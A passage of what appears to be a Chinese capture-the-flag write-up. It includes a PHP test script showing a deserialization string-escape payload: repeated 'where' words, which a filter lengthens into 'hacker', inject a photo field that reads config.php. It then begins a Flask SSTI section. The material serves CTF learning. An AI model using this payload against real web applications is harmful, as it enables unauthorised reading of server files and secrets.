 读取完成后需要去 `profile.php`中查看源码,然后将读取到的`base64编码`解码

最后在`config.php`中找到flag

测试脚本:

```php
<?php
$file['name'] = 'a.jpg';
$profile['phone'] = "13333333333";
$profile['email'] = "abc@123.com";
$profile['nickname'][] = "wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere\";}s:5:\"photo\";s:10:\"config.php\";}";
$profile['photo'] = 'upload/' . md5($file['name']);

function filter($string){
    $escape = array('\'', '\\\\');
    $escape = '/' . implode('|', $escape) . '/';
	$string = preg_replace($escape, '_', $string);
    $safe = array('select', 'insert', 'update', 'delete', 'where');
    $safe = '/' . implode('|', $safe) . '/i'; # 构造正则匹配表达式
    return preg_replace($safe, 'hacker', $string);
}

$a = serialize($profile);
echo $a;
echo '<br>';
$b = filter($a);
echo $b;
echo '<br>';
$c = unserialize($a);
$d = unserialize($b);
var_dump($c);
echo '<br>';
var_dump($d);

?>
```

<br>

***

<br>

# [SSTI,Flask的pin]FlaskApp

`base64`解码页面随便输入点东西,无法解码时会爆错, 报出一些路径和源码
